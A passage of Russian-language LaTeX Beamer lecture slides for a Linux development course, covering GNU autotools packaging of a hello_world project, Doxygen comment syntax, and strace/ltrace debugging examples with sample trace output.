	 Название «m4» раскрывается как «macro»,  то есть «m» + ещё 4 буквы.
 \end{block}
\end{frame}


\begin{frame}[fragile]
 \frametitle{Возможный алгоритм использования autotools}
 \begin{itemize}
  \item Запустить \texttt{autoscan}
  \item Заполнить сгенерированный шаблон \texttt{configure.scan} и сохранить как \texttt{configure.ac}
  \item Заполнить Makefile.am в каждой поддиректории
  \item Запустить \texttt{autoreconf -{}-install -{}-force}
  \item Починить проблемы
  \item \verb+./configure && make && make install+
 \end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Практическая задача}

Создадим переносимый пакет {\tt hello\_world}

	\begin{block}{На входе}
	\begin{itemize}
		\item Проект типа Hello,World с отдельным файлом, который будет содержать функцию \texttt{helloworld} 
	\end{itemize}
	\end{block}

	\begin{block}{На выходе}
	\begin{itemize}
		\item Бинарный файл содержащий собственную реализацию печати сообщения
		\item Разделяемую библиотеку для печати сообщения
		\item Бинарный файл, использующий библиотеку
	\end{itemize}
	\end{block}

\end{frame}

\begin{frame}[fragile]
\frametitle{Исходники}

	\begin{itemize}
		\item Считаем, что исходники находятся в {\tt src/}
		\item Добавить в список необходимых заголовочных файлов {\tt config.h}
	\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Пример \texttt{configure.ac}}

	\begin{itemize}
		\item Запускаем {\tt autoscan} для получения шаблона
		\item Копируем шаблон в \texttt{configure.ac} и редактируем его
		\item[] Обратить внимание на {\tt config.h}
		\item Запускаем {\tt autoreconf -vfi}
	\end{itemize}

\begin{lstlisting}[language=sh]
AC_INIT([my-package],[1.0.0],[me@maintainer.org])
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Пример \texttt{configure.ac}: добавляем {\tt automake}}

	\begin{itemize}
		\item Добавляем инициализацию {\tt automake} в шаблон
		\item Запускаем {\tt autoreconf -vfi}
	\end{itemize}

\begin{lstlisting}[language=sh]
AC_INIT([my-package],[1.0.0],[me@maintainer.org])
AM_INIT_AUTOMAKE([foreign -Wall -Werror])

AC_CONFIG_HEADERS([config.h])
AC_CHECK_LIB([m],[floor],[],[AC_MSG_ERROR(no math library)])

\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Пример \texttt{configure.ac}: добавляем {\tt Makefile}}
	\begin{block}{Корневой \texttt{Makefile.am}}
\begin{lstlisting}[language=sh]
SUBDIRS = src
\end{lstlisting}

	Hint: {\tt VPATH} в {\tt Makefile}
\end{block}


	\begin{block}{\texttt{Makefile.am} в {\tt src}}
\begin{lstlisting}[language=sh]
bin_PROGRAMS = hello
hello_SOURCES  = hello.c libhello.c
\end{lstlisting}
	\end{block}

	\begin{block}{\texttt{configure.ac}}
\begin{lstlisting}[language=sh]
AC_CONFIG_AUX_DIR([build-aux])
AC_CONFIG_FILES([Makefile src/Makefile])
\end{lstlisting}
	\end{block}

\end{frame}


\begin{frame}[fragile]
\frametitle{lib LTLIBRARIES и libtool}
\begin{itemize}
 \item Разные системы -- разные расширения для динамических библиотек (
\texttt{.so, .dylib, .dll})
 \item Некоторые системы вообще не поддерживают динамическую линковку
 \item Ответ на все это -- \texttt{libtool}
 \item Кроме библиотеки с системным расширением создает \texttt{libsomething.la} с которой умеет работать на всех системах
 \item \texttt{Makefile.am} -- переменная \verb+lib_LTLIBRARY+ 
\end{itemize}
\end{frame}

\begin{frame}[fragile,allowframebreaks]
	\frametitle{Пример: добавляем библиотеку}
	\begin{block}{\texttt{Makefile.am} в {\tt src}}
\begin{lstlisting}[language=sh]
bin_PROGRAMS = hello
lib_LTLIBRARIES = libhello-lib.la
hello_SOURCES  = hello.c
hello_LDADD = libhello-lib.la
libhello_lib_la_SOURCES = libhello.c
\end{lstlisting}
	\end{block}

	\begin{block}{Корневой \texttt{Makefile.am}}
\begin{lstlisting}[language=sh]
SUBDIRS = src
ACLOCAL_AMFLAGS = -I m4
\end{lstlisting}
	\end{block}

	\begin{block}{\texttt{configure.ac}}
\begin{lstlisting}[language=sh]
# Checks for libraries.
LT_INIT
\end{lstlisting}
	\end{block}

	\begin{itemize}
		\item Запускаем {\tt libtoolize} 
	\end{itemize}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Пример: автоматическая магия}
	\begin{block}{Сборка без библиотек}
	\center{\tt ./configure -{}-disable-shared}
	\end{block}
\end{frame}


\begin{frame}
 \frametitle{Альтернативы autotools}
\begin{itemize}
  \item{Основанные на make}
  \begin{itemize}
    \item CMake
    \item MakeKit
    \item qmake
  \end{itemize}
  \item{Другие}
    \begin{itemize}
      \item SCons
      \item rake, cabal, ant, etc.
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}
 \frametitle{Домашнее задание}
  \begin{itemize}
    \item Добавить правила сборки GNU Autotools в свою реализацию архиватора Хаффмана
  \end{itemize}
\end{frame} }
\end{verbatim}

\chapter{Документирование кода}
\mode<all>{\begin{frame}
 \frametitle{Системы автоматического документирования}
 \begin{itemize}
  \item Donald Knuth, literate programming, 1983
  \item perldoc, etc. 1994
  \item javadoc, 1995
  \item Doxygen, 1997
 \end{itemize}
\end{frame}

\begin{frame}
 \frametitle{Как использовать}
 \begin{itemize}
  \item Добавить комментарии в формате Doxygen в исходники
  \item \texttt{doxygen -g Doxyconfig}
  \item Редактировать Doxyconfig
  \item doxygen Doxyconfig
 \end{itemize}
\end{frame}


\begin{frame}[fragile]
 \frametitle{Некоторые важные параметры в конфигурационном файле}
 \begin{itemize}
  \item \verb+PROJECT_NAME+
  \item \verb+PROJECT_NUMBER+
  \item \verb+INPUT+  
  \item \verb+RECURSIVE+
  \item \verb+EXCLUDE+
  \item \verb+EXCLUDE_PATTERNS+
  \item \verb+EXTRACT_ALL+
 \end{itemize}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Краткий комментарий}
 \begin{block}{До кода}
   Добавить дополнительный символ "/"
   \begin{lstlisting}[language=C]
/// Краткое описание
void function(void);
\end{lstlisting}
 \end{block}
 \begin{block}{После кода}
   Добавить дополнительный символ "/<"
   \begin{lstlisting}[language=C]
void function(void); ///< краткое описание
\end{lstlisting}
 \end{block}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Детальный комментарий}
 \begin{block}{До кода}
   Добавить дополнительный символ "*":
   \begin{lstlisting}[language=C]
/** Детальное описание
  * функции */
void function(void);
\end{lstlisting}
 \end{block}
 \begin{block}{После кода}
   Добавить дополнительный символ "*<":
    \begin{lstlisting}[language=C]
void function(void); /**< Детальное 
  * описание
  * функции */
\end{lstlisting}
 \end{block}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Пример комментариев для файла}
\begin{lstlisting}[language=C]
/**
  @file filename
  @brief Краткое описание

  Детальное описание
  @author Автор
  @copyright Copyright (c) 2016, Author/Company
  @license This file is released under the GNU Public License.
  @bug Нет известных багов
*/
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Образец комментариев для функции}
\begin{lstlisting}[language=C]
/**
  @brief Краткое описание функции

  Детальное описание
  @param[in] parameter1 Описание первого параметра
  @param[out] parameter2 Описание второго параметра
  @see Ссылка на другую функцию
  @return Что возвращает

*/
int function(int parameter1, char *parameter2) 
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Образец комментариев для данных}
\begin{lstlisting}[language=C]
/** 
 * Описание структуры 
 */
typedef struct { 
  /** 
  * @name Coordinates
  */
  /*@{*/
  double x ; /**< the x coordinate*/ 
  double y ; /**< the y coordinate */
  double z ; /**< the z coordinate */
  /*@}*/
  /*@{*/
  char * name ; /**< the name of the point */
  int namelength ; /**< the size of the point name */
  /*@}*/
  } point3d
\end{lstlisting}
\end{frame}


\begin{frame}
 \frametitle{Упражнение}
  \begin{itemize}
    \item В проекте helloworld откомментировать каждую функцию в стиле doxygen
    \item Сгенерировать документацию
  \end{itemize}
\end{frame} 

\begin{frame}
 \frametitle{Домашнее задание}
  \begin{itemize}
    \item Добавить документацию  в стиле doxygen в свою реализацию архиватора Хаффмана
    \item Сгенерировать документацию
  \end{itemize}
\end{frame} 
}

\chapter{Binutils. Анализ исполняемого файла}
\mode<all>{\input{../../slides/elf-analysis/example}}
\section{Динамически связанные библиотеки}
\mode<all>{\input{../../slides/elf-analysis/ldd}}
\section{Структура elf}
\mode<all>{\input{../../slides/elf-analysis/elf-structure}}
\section{Binutils}
\mode<all>{\input{../../slides/elf-analysis/objdump}}

\chapter{Отладка}
\mode<all>{\begin{frame}{Сетевая подсистема Linux}

	\begin{block}{Cетевой интерфейс}

		Сетевой интерфейс в Linux -– это абстрактный \alert{именованный} объект,  используемый для передачи 
		данных через некоторую линию связи без привязки к ее (линии связи) реализации.
	\end{block}
\end{frame}

\begin{frame}{Сетевая подсистема Linux}

	\center\includegraphics[width=0.9\textwidth]{../../slides/networking/06-netstack.png}

\end{frame}


}
\section{Отладка с помощью printf}
\mode<all>{\input{../../slides/debug/printf}}
\section{GNU отладчик gdb}
\mode<all>{\input{../../slides/debug/gdb}}
\section{Valgrind}
\mode<all>{\input{../../slides/debug/valgrind}}
\section{Отладка системных вызовов (strace,ltrace)}
\mode<all>{% Copyright (C) 2012-2014  Denis Pynkin <denis_pynkin@epam.com>
% Copyright (C) 2012-2014  Yury Adamov  <yury_adamov@epam.com>

% Copyright (C) 2012-2013  Dmitry V. Levin <ldv@altlinux.org>
% Permission is granted to copy, distribute and/or modify this document
% under the terms of the GNU Free Documentation License, Version 1.2
% or any later version published by the Free Software Foundation;
% with no Invariant Sections, no Front-Cover Texts, and no Back-Cover Texts.


\begin{frame}[fragile]
  \frametitle{strace, ltrace}
  \begin{center}
   Основные опции 
  \end{center}
  \begin{itemize}
   \item \texttt{-e <expression>}
\begin{lstlisting}[language=sh]
  strace -e read,write -e read=50 
\end{lstlisting}
   \item \texttt{-p <pid>}
\begin{lstlisting}[language=sh]
  ltrace -p 1021
\end{lstlisting}
   \item \texttt{-c}
   \item \texttt{-f} следить за дочерними процессами
   \item \texttt{-o <filename>}
   \item \texttt{-t, -T}
  \end{itemize}
\end{frame}

\begin{frame}
\frametitle{Более полный набор опций -e}

\begin{itemize}
\item \texttt{trace=<smth>}
    \begin{itemize}
    \item file
    \item process
    \item network
    \item signal
    \end{itemize}
\item \texttt{read=<smth>} 
\item \texttt{write=<smth>}
\item \texttt{raw=<smth>}
\end{itemize}
\end{frame}

\begin{frame}
 \frametitle{Некоторые возможные применения}
 \begin{itemize}
  \item Обнаружение файлов, открываемых приложением (\texttt{-e open})
    \begin{itemize}
      \item библиотек, подключаемых в реальном времени
      \item конфигурационных файлов
    \end{itemize}
   \item Обнаружение сетевых соединений \texttt{connect, accept, recvfrom, sendto, poll, read, write} 
   \item Чем занято приложение в текущий момент
   \item Почему приложение сейчас тормозит
   \item Профилирование
   \item Получение дампов записей в устройства, сокеты и т.п.
 \end{itemize}
\end{frame}

%\begin{frame}
% \frametitle{Упражнение}
% \begin{enumerate}
%   \item Выяснить, какие конфигурационные файлы пытается открыть \texttt{vim}
%   \item В каком системном вызове проводит больше всего времени \texttt{ls /usr/bin/}. То же для \texttt{ls -l /usr/bin}
%   \item Повторить предыдущий пункт для библиотечных вызовов.
%   \item Попробовать различные представления времени: {\tt -r}, {\tt -t},{\tt -tt},{\tt -ttt}.
% \end{enumerate}
%\end{frame}

\begin{frame}[fragile]{strace usage examples: -P, -e trace=file}
\scriptsize
\begin{verbatim}
$ strace -e file ls /var/empty
execve("/bin/ls", ["ls", "/var/empty"], [/* 32 vars */]) = 0
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
open("/lib64/libtinfo.so.5", O_RDONLY)  = 3
open("/lib64/libselinux.so.1", O_RDONLY) = 3
open("/lib64/librt.so.1", O_RDONLY)     = 3
open("/lib64/libcap.so.2", O_RDONLY)    = 3
open("/lib64/libacl.so.1", O_RDONLY)    = 3
open("/lib64/libc.so.6", O_RDONLY)      = 3
open("/lib64/libdl.so.2", O_RDONLY)     = 3
open("/lib64/libpthread.so.0", O_RDONLY) = 3
open("/lib64/libattr.so.1", O_RDONLY)   = 3
stat("/var/empty", {st_mode=S_IFDIR|0555, st_size=4096, ...}) = 0
open("/var/empty", O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC) = 3
+++ exited with 0 +++
\end{verbatim}

\begin{verbatim}
$ strace -P /etc/ld.so.cache ls /var/empty
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=22446, ...}) = 0
mmap(NULL, 22446, PROT_READ, MAP_PRIVATE, 3, 0) = 0x2b7ac2ba9000
close(3)                                = 0
+++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -P, -v}
\scriptsize
\begin{verbatim}
$ strace -P /var/empty ls /var/empty
stat("/var/empty", {st_mode=S_IFDIR|0555, st_size=4096, ...}) = 0
open("/var/empty", O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC) = 3
fcntl(3, F_GETFD)                       = 0x1 (flags FD_CLOEXEC)
getdents(3, /* 2 entries */, 32768)     = 48
getdents(3, /* 0 entries */, 32768)     = 0
close(3)                                = 0
+++ exited with 0 +++
\end{verbatim}

\begin{verbatim}
$ strace -P /var/empty -v ls /var/empty
stat("/var/empty", {st_dev=makedev(0, 30), st_ino=1020461,
  st_mode=S_IFDIR|0555, st_nlink=2, st_uid=0, st_gid=0, st_blksize=4096,
  st_blocks=8, st_size=4096, st_atime=2012/07/22-14:21:04,
  st_mtime=2012/05/17-19:22:58, st_ctime=2012/05/17-19:24:07}) = 0
open("/var/empty", O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC) = 3
fcntl(3, F_GETFD)                       = 0x1 (flags FD_CLOEXEC)
getdents(3, {{d_ino=799280, d_off=1551270678, d_reclen=24, d_name=".."}
  {d_ino=1020461, d_off=2147483647, d_reclen=24, d_name="."}}, 32768) = 48
getdents(3, {}, 32768)                  = 0
close(3)                                = 0
+++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -y, -e trace=}
\scriptsize
%\tiny
\begin{verbatim}
$ strace -e fstat,close -y ls /var/empty >/dev/null
fstat(3</etc/ld.so.cache>, {st_mode=S_IFREG|0644, st_size=22446, ...}) = 0
close(3</etc/ld.so.cache>)              = 0
fstat(3</lib/libtinfo.so.5.7>, {st_mode=S_IFREG|0644, st_size=135352, ...}) = 0
close(3</lib/libtinfo.so.5.7>)        = 0
fstat(3</lib/libselinux.so.1>, {st_mode=S_IFREG|0644, st_size=121992, ...}) = 0
close(3</lib/libselinux.so.1>)        = 0
fstat(3</lib/librt-2.11.3.so>, {st_mode=S_IFREG|0755, st_size=31792, ...}) = 0
close(3</lib/librt-2.11.3.so>)        = 0
fstat(3</lib/libcap.so.2.16>, {st_mode=S_IFREG|0644, st_size=23048, ...}) = 0
close(3</lib/libcap.so.2.16>)         = 0
fstat(3</lib/libacl.so.1.1.0>, {st_mode=S_IFREG|0644, st_size=35376, ...}) = 0
close(3</lib/libacl.so.1.1.0>)        = 0
fstat(3</lib/libc-2.11.3.so>, {st_mode=S_IFREG|0755, st_size=1452024, ...}) = 0
close(3</lib/libc-2.11.3.so>)         = 0
fstat(3</lib/libdl-2.11.3.so>, {st_mode=S_IFREG|0755, st_size=14776, ...}) = 0
close(3</lib/libdl-2.11.3.so>)        = 0
fstat(3</lib/libpthread-2.11.3.so>, {st_mode=S_IFREG|0755, st_size=138064, ...}) = 0
close(3</lib/libpthread-2.11.3.so>)   = 0
fstat(3</lib/libattr.so.1.1.0>, {st_mode=S_IFREG|0644, st_size=18704, ...}) = 0
close(3</lib/libattr.so.1.1.0>)       = 0
close(3</var/empty>)                    = 0
close(1</dev/null>)                     = 0
close(2</dev/pts/0>)                    = 0
+++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -y, -e trace=, -e read=}
\Tiny
\begin{verbatim}
$ strace -e trace=read -e read=3 -y ls /var/empty
read(3</lib64/libtinfo.so.5.7>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\300\315\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  c0 cd 00 00 00 00 00 00  ..>..... ........ |
 | 00320  00 00 00 00 00 00 00 00  00 00 00 00 4d 00 00 00  ........ ....M... |
 | 00330  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ........ ........ |
read(3</lib64/libselinux.so.1>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\240W\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  a0 57 00 00 00 00 00 00  ..>..... .W...... |
 | 00320  40 20 00 00 20 00 00 80  c8 84 e2 00 00 12 00 03  @ .. ... ........ |
 | 00330  20 40 02 21 80 50 02 21  70 00 00 00 71 00 00 00   @.!.P.! p...q... |
read(3</lib64/librt-2.11.3.so>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\200!\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  80 21 00 00 00 00 00 00  ..>..... .!...... |
 | 00320  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ........ ........ |
 | 00330  00 00 00 00 48 00 00 00  00 00 00 00 49 00 00 00  ....H... ....I... |
read(3</lib64/libcap.so.2.16>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@\30\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  40 18 00 00 00 00 00 00  ..>..... @....... |
 | 00320  89 71 ee b2 ee 3e 3c d4  dd e7 a8 99 18 bf 5b 17  .q...><. ......[. |
 | 00330  7d dd 81 63 ed 16 0b 88  4d a7 3a ea f5 3e 3c d4  }..c.... M.:..><. |
read(3</lib64/libacl.so.1.1.0>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\240\37\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  a0 1f 00 00 00 00 00 00  ..>..... ........ |
 | 00320  47 00 00 00 00 00 00 00  48 00 00 00 4a 00 00 00  G....... H...J... |
 | 00330  00 00 00 00 4b 00 00 00  00 00 00 00 00 00 00 00  ....K... ........ |
read(3</lib64/libc-2.11.3.so>, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\360\354\1\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 03  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  f0 ec 01 00 00 00 00 00  ..>..... ........ |
 | 00320  80 ca 44 42 28 00 06 80  10 18 42 00 20 40 80 00  ..DB(... ..B. @.. |
 | 00330  09 50 00 51 8a 40 10 00  00 00 00 08 00 00 11 10  .P.Q.@.. ........ |
read(3</lib64/libdl-2.11.3.so>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\340\r\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  e0 0d 00 00 00 00 00 00  ..>..... ........ |
 | 00320  91 21 fc f8 06 02 04 f9  fb 33 fb 0f f9 19 73 42  .!...... .3....sB |
 | 00330  fa 19 73 42 95 b3 5f 19  7f 9e d0 18 61 a2 92 06  ..sB.._. ....a... |
read(3</lib64/libpthread-2.11.3.so>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\360Y\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  f0 59 00 00 00 00 00 00  ..>..... .Y...... |
 | 00320  01 05 00 50 20 a9 02 07  28 00 00 82 04 98 40 04  ...P ... (.....@. |
 | 00330  00 10 e0 54 00 02 40 02  02 10 c1 30 44 02 80 00  ...T..@. ...0D... |
read(3</lib64/libattr.so.1.1.0>, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\260\23\0\0\0\0\0\0"..., 832) = 832
 | 00000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  .ELF.... ........ |
 | 00010  03 00 3e 00 01 00 00 00  b0 13 00 00 00 00 00 00  ..>..... ........ |
 | 00320  bf a8 e3 f8 db 0c 16 89  bb e3 92 7c c5 e8 1b 9b  ........ ...|.... |
 | 00330  05 c1 58 15 4b 3d 47 f3  91 78 a9 dd eb d3 ef 0e  ..X.K=G. .x...... |
+++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -r, -e trace=process}
\scriptsize
\begin{verbatim}
$ strace -r /bin/true
     0.000000 execve("/bin/true", ["/bin/true"], [/* 32 vars */]) = 0
     0.000281 exit_group(0)             = ?
     0.000063 +++ exited with 0 +++
\end{verbatim}

\begin{verbatim}
# strace -r -e process unshare -i /bin/true
     0.000000 execve("/usr/bin/unshare",
       ["/usr/bin/unshare", "-i", "/bin/true"], [/* 32 vars */]) = 0
     0.000899 arch_prctl(ARCH_SET_FS, 0x7f4e537cd700) = 0
     0.000398 unshare(CLONE_NEWIPC)     = 0
     0.000190 execve("/bin/true", ["/bin/true"], [/* 32 vars */]) = 0
     0.000186 exit_group(0)             = ?
     0.028931 +++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -r, -T, -f, -e trace=process}
\Tiny
\begin{verbatim}
$ strace -e process -r -T sh -c 'kill $$'
     0.000000 execve("/bin/sh", ["sh", "-c", "kill $$"], [/* 32 vars */]) = 0 <0.000361>
     0.001185 arch_prctl(ARCH_SET_FS, 0x2b0c3236b020) = 0 <0.000008>
     0.002239 --- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=12345, si_uid=500} ---
     0.000218 +++ killed by SIGTERM +++
\end{verbatim}

\begin{verbatim}
$ strace -e process -f -q \
 sh -c 'sleep 1 & pid=$!; sleep 0.1; kill $pid; wait'
execve("/bin/sh", ["sh", "-c", "sleep 1 & pid=$!; sleep 0.1; kil"...], [/* 32 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x2ae37beef020) = 0
clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x2ae37beef2f0) = 10001
[pid 10000] clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x2ae37beef2f0) = 10002
[pid 10001] execve("/bin/sleep", ["sleep", "1"], [/* 32 vars */] <unfinished ...>
[pid 10002] execve("/bin/sleep", ["sleep", "0.1"], [/* 32 vars */] <unfinished ...>
[pid 10001] <... execve resumed> )      = 0
[pid 10002] <... execve resumed> )      = 0
[pid 10000] wait4(-1,  <unfinished ...>
[pid 10001] arch_prctl(ARCH_SET_FS, 0x2b8cf7d49b20) = 0
[pid 10002] arch_prctl(ARCH_SET_FS, 0x2ada74416b20) = 0
[pid 10002] exit_group(0)               = ?
[pid 10002] +++ exited with 0 +++
[pid 10000] <... wait4 resumed> [{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0, NULL) = 10002
[pid 10000] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=10002, si_status=0, si_utime=0, si_stime=0} ---
[pid 10000] wait4(-1, 0x7fff7560e53c, WNOHANG, NULL) = 0
[pid 10001] --- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=10000, si_uid=600} ---
[pid 10001] +++ killed by SIGTERM +++
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=10001, si_status=SIGTERM, si_utime=1, si_stime=0} ---
wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}], WNOHANG, NULL) = 10001
wait4(-1, 0x7fff7560e58c, WNOHANG, NULL) = -1 ECHILD (No child processes)
exit_group(0)                           = ?
+++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -ff, -ttt, -o, strace-log-merge}
\Tiny
\begin{verbatim}
$ strace -e process -ff -ttt -o log \ 
  sh -c 'sleep 1 & pid=$!; sleep 0.1; kill $pid; wait'
sh: line 1: 10001 Terminated              sleep 1
\end{verbatim}

\begin{verbatim}
$ head -1 log.*
==> log.10000 <==
1342993484.722384 execve("/bin/sh", ["sh", "-c", "sleep 1 & pid=$!; sleep 0.1; kil"...], [/* 32 vars */]) = 0
==> log.10001 <==
1342993484.727498 execve("/bin/sleep", ["sleep", "1"], [/* 32 vars */]) = 0
==> log.10002 <==
1342993484.727422 execve("/bin/sleep", ["sleep", "0.1"], [/* 32 vars */]) = 0
\end{verbatim}

\begin{verbatim}
$ strace-log-merge log
10000 1342993484.722384 execve("/bin/sh", ["sh", "-c", "sleep 1 & pid=$!; sleep 0.1; kil"...], [/* 33 vars */]) = 0
10000 1342993484.723369 arch_prctl(ARCH_SET_FS, 0x2ad5cc1fa020) = 0
10000 1342993484.725378 clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD,
  child_tidptr=0x2ad5cc1fa2f0) = 10001
10000 1342993484.726783 clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD,
  child_tidptr=0x2ad5cc1fa2f0) = 10002
10000 1342993484.727188 wait4(-1, [{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0, NULL) = 10002
10002 1342993484.727422 execve("/bin/sleep", ["sleep", "0.1"], [/* 32 vars */]) = 0
10001 1342993484.727498 execve("/bin/sleep", ["sleep", "1"], [/* 32 vars */]) = 0
10002 1342993484.769744 arch_prctl(ARCH_SET_FS, 0x2acee796db20) = 0
10001 1342993484.769845 arch_prctl(ARCH_SET_FS, 0x2b2bd019cb20) = 0
10002 1342993484.872233 exit_group(0)         = ?
10002 1342993484.872389 +++ exited with 0 +++
10000 1342993484.872492 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=10002, si_status=0, si_utime=0,
  si_stime=0} ---
10000 1342993484.872519 wait4(-1, 0x7fffe27a860c, WNOHANG, NULL) = 0
10001 1342993484.872666 --- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=10000, si_uid=600} ---
10000 1342993484.872795 wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}], 0, NULL) = 10001
10001 1342993484.872849 +++ killed by SIGTERM +++
10000 1342993484.873117 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=10001, si_status=SIGTERM,
  si_utime=0, si_stime=0} ---
10000 1342993484.873140 wait4(-1, 0x7fffe27a81bc, WNOHANG, NULL) = -1 ECHILD (No child processes)
10000 1342993484.873339 exit_group(0)         = ?
10000 1342993484.873599 +++ exited with 0 +++
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -o pipeline}
\scriptsize
\begin{verbatim}
$ strace -e open -o '|grep /lib' ls /var/empty
open("/lib64/libtinfo.so.5", O_RDONLY)  = 3
open("/lib64/libselinux.so.1", O_RDONLY) = 3
open("/lib64/librt.so.1", O_RDONLY)     = 3
open("/lib64/libcap.so.2", O_RDONLY)    = 3
open("/lib64/libacl.so.1", O_RDONLY)    = 3
open("/lib64/libc.so.6", O_RDONLY)      = 3
open("/lib64/libdl.so.2", O_RDONLY)     = 3
open("/lib64/libpthread.so.0", O_RDONLY) = 3
open("/lib64/libattr.so.1", O_RDONLY)   = 3
\end{verbatim}

\begin{verbatim}
$ strace -e desc -y -o "|grep '</[^l]'" ls /var/empty
fstat(3</etc/ld.so.cache>, {st_mode=S_IFREG|0644, st_size=22446, ...}) = 0
mmap(NULL, 22446, PROT_READ, MAP_PRIVATE, 3</etc/ld.so.cache>, 0) = 0x2ab097dfb000
close(3</etc/ld.so.cache>)              = 0
ioctl(1</dev/pts/0>, SNDCTL_TMR_TIMEBASE or SNDRV_TIMER_IOCTL_NEXT_DEVICE or TCGETS, {B38400 opost isig icanon echo ...}) = 0
ioctl(1</dev/pts/0>, TIOCGWINSZ, {ws_row=46, ws_col=128, ws_xpixel=1408, ws_ypixel=828}) = 0
fcntl(3</var/empty>, F_GETFD)           = 0x1 (flags FD_CLOEXEC)
getdents(3</var/empty>, /* 2 entries */, 32768) = 48
getdents(3</var/empty>, /* 0 entries */, 32768) = 0
close(3</var/empty>)                    = 0
close(1</dev/pts/0>)                    = 0
close(2</dev/pts/0>)                    = 0
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -p}
\begin{verbatim}
$ sleep 1 & sleep 1 & sleep 0.1 &&
  strace -e process -p "$(pidof sleep)"
[1] 10000
[2] 10001
Process 10001 attached
Process 10000 attached
[pid 10000] exit_group(0)               = ?
[pid 10001] exit_group(0)               = ?
[pid 10001] +++ exited with 0 +++
[2]+  Done                    sleep 1
+++ exited with 0 +++
